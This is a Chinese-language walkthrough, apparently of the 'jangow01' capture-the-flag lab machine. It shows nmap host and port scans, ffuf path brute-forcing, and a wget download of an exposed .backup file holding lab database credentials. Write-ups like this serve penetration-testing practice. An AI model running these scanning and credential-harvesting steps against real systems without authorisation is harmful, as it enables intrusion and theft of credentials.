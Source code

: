 

### jangow01



Nmap 扫描 IP 地址

```
nmap -sP -PR -n -T 5 10.10.10.0/24

...
MAC Address: 00:50:56:C0:00:0A (VMware)
Nmap scan report for 10.10.10.100
```



Nmap 扫描 TCP 端口，发现一个 HTTP 站点和 VSFTPD 站点。

```
db_nmap -sV -n -p- -r -T 5 -O 10.10.10.100

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
10.10.10.100  21    tcp    ftp   open   vsftpd 3.0.3
10.10.10.100  80    tcp    http  open   Apache httpd 2.4.18
```



使用 ffuf 高频文件字典爆破网站路径，发现 .backup 文件。

```
ffuf -u http://10.10.10.100/FUZZ -w raft-large-files-lowercase.txt

...
.backup                 [Status: 200, Size: 336, Words: 30, Lines: 13, Duration: 10ms]
...
:: Progress: [35325/35325] :: Job [1/1] :: 74 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```



使用 wget 下载 .backup 文件，发现里面为连接数据库的账号和密码。

```
wget http://10.10.10.100/.backup -O backup

# 文件内容
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```
